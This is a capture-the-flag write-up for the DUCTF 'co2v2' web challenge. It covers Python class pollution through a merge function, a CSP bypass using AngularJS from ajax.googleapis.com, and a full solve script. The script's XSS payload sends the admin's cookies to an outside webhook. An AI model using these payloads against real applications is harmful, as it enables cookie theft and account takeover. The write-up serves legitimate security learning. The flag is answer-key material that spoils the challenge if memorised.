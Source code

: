 ```yaml
---
created: 2024-07-06T16:35
updated: 2024-07-07T21:48
title: co2v2
solves: 59
points: 222
description: '"Payload primed, initiate deployment."'
---
```


## Analysis

### `/admin/update-accepted-templates`
This route changes the environment, if we can change the value of `TEMPLATES_ESCAPE_ALL` to `False`, we will disable XSS protection.

### `/save_feedback`
This route uses a fancy merge function that after verification, is indeed vulnerable to "prototype" pollution.

### `script-src 'self' 'nonce-{nonce}' https://ajax.googleapis.com;`
The CSP rule can be bypassed by using libraries from `https://ajax.googleapis.com`, such as the infamous angular xss method.

## "Prototype" Pollution

We are essentially changing values on global by hijacking the merge command to do our bidding.

```json
{
    "__class__": {
        "__init__": {
            "__globals__": {
                "TEMPLATES_ESCAPE_ALL": false,
                "os":{"environ":{"APP_URL":"hijacked"}}
            }
        }
    }
}
```

## Attack Flow

1. Sign up & sign in
2. `/create_post` XSS payload note (angular + prototype)
3. `/save_feedback` with pollution payload to change value of `TEMPLATES_ESCAPE_ALL` to false.
4. `/admin/update-accepted-templates` Ask server to update policy (it will use the new value of `TEMPLATES_ESCAPE_ALL=False`)
5. `/api/v1/report` (no modification to default environ needed)
6. Check webhook

## Solve Script

```python
import requests
import random
import string

webhook = "https://webhook.site"
target = "https://web-co2v2-f4243a8e077ecefb.2024.ductf.dev"
session = requests.Session()


def generate_random_string(length):
    letters = string.ascii_letters
    return ''.join(random.choice(letters) for _ in range(length))


def regAndLogin():

    username = generate_random_string(6)
    password = generate_random_string(6)

    data = session.post(f'{target}/register', data={
        "username": username,
        "password": password
    })
    if data.status_code != 200:
        print("failed to register", data.status_code)
        exit(1)
    data = session.post(f'{target}/login', data={
        "username": username,
        "password": password
    })
    if data.status_code != 200:
        print("failed to login", data.status_code)
        exit(1)
    print("logged in")


def createPost():
    data = session.post(f'{target}/create_post', data={
        "title": f"""
<script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.0.1/angular.js></script>
<script src=https://ajax.googleapis.com/ajax/libs/prototype/1.7.2.0/prototype.js></script>
<body class="ng-app" ng-csp>
{{{{$on.curry.call().fetch("{webhook}?"+$on.curry.call().document.cookie.toString(),{{mode:"no-cors"}})}}}}
</body>
        """,
        "content": """script loader""",
        "public": 1
    })
    if data.status_code != 200:
        print("failed to create post", data.status_code, data.text)
        exit(1)
    print("payload created")


def polluteRemote():
    data = session.post(f'{target}/save_feedback', json={
        "__class__": {
            "__init__": {
                "__globals__": {
                    "TEMPLATES_ESCAPE_ALL": False,
                    # "os": {"environ": {"APP_URL": url}} # yes i can change environ
                }
            }
        }
    })
    print("pollution complete", data.text)


def disableProtection():
    data = session.post(f'{target}/admin/update-accepted-templates', json={
        'policy': 'strict'
    })
    print("protection disabled", data.text)


def activatePayload():
    data = session.get(f'{target}/api/v1/report')
    print("payload activated", data.text)


regAndLogin()
createPost()
polluteRemote()  # "http://co2v2:1337")
disableProtection()
activatePayload()

# logged in
# payload created
# pollution complete {"success":"true"}
# protection disabled {"success":"true"}
# payload activated {"status":202}
```

```flag
DUCTF{_1_d3cid3_wh4ts_esc4p3d_}
```
